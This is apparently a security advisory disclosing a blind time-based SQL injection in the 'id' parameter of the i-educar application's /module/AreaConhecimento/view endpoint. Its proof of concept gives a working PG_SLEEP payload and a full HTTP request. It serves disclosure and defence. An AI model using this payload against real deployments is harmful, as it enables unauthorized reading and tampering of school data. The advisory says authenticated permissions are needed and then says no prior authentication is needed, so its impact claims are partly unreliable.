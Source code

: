# SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/AreaConhecimento/view` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/AreaConhecimento/view` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/AreaConhecimento/view`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Listagem de áreas de conhecimento**.

![[Pasted image 20250817192322.png]]

Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /module/AreaConhecimento/view?id=3'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/module/AreaConhecimento/index
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

![[Pasted image 20250817192600.png]]

Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)